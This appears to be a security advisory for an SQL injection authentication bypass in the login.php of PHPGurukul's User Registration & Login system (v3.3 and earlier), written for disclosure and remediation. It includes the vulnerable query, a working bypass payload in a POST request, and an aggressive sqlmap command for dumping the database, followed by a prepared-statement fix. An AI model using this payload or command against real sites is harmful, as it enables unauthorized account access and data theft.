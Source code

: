 #  Authentication Bypass via SQL Injection in `login.php` Using `uemail` and `password` POST Parameters in User Registration & Login and User Management System With Admin Panel ≤ v3.3

👨‍💻 **BUG Author:**  
4m3rr0r

📦 **Product Information:**  
- **Vendor Homepage:** https://phpgurukul.com  
- **Software Link:** [User Registration System](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)  
- **Affected Version:** <= 3.3  
- **Software Name:** User Registration & Login and User Management System With Admin Panel  
- **Size:** 212 KB  
- **Version:** v3.3  

---

## 🛠 **Vulnerability Details**

### 🧨 **Vulnerability Type**
SQL Injection (CWE-89)

### 🧬 **Root Cause**
User-supplied input is directly embedded into a SQL query without proper sanitization or use of prepared statements.

```php
$ret = mysqli_query($con,"SELECT id,fname FROM users WHERE email='$useremail' and password='$dec_password'");
```

### ⚠️ **Impact**
- **Authentication Bypass**
- **Access to User Data**
- **Database Dumping**
- **Potential Remote Code Execution (via stacked queries if enabled)**

---

## 📋 **Description**
The login form in `login.php` accepts `uemail` and `password` via POST. The input is used unsafely in an SQL query, leading to a classic SQL Injection vulnerability. An attacker can bypass login authentication or dump the entire database using automated tools like `sqlmap`.

---

## 🔬 **Proof of Concept**

**URL:**  
`http://<target>/loginsystem/login.php`

**PoC Request:**
```http
POST /loginsystem/login.php HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded

uemail=test' OR '1'='1&password=irrelevant&login=Login
```

**sqlmap Usage:**
```bash
sqlmap -u "http://<target>/loginsystem/login.php" \
--data="uemail=test&password=test&login=Login" \
--risk=3 --level=5 --batch
```
![sqlmap](./Images/2025-07-11_00-06.png)


**Injection Types Found:**
- Boolean-based blind
- Time-based blind

---

## 🛡 **Suggested Remediation**
Use **prepared statements** or **parameterized queries** to safely handle user input.

✅ Example Fix:
```php
$stmt = $con->prepare("SELECT id, fname FROM users WHERE email = ? AND password = ?");
$stmt->bind_param("ss", $useremail, $password);
$stmt->execute();
```

---

## 🔐 **Security Recommendations**
- Apply input validation and output encoding.
- Disable display of detailed SQL errors.
- Limit database privileges for web application users.
- Use Web Application Firewall (WAF).

---

## 📚 **References**
- https://owasp.org/www-community/attacks/SQL_Injection  

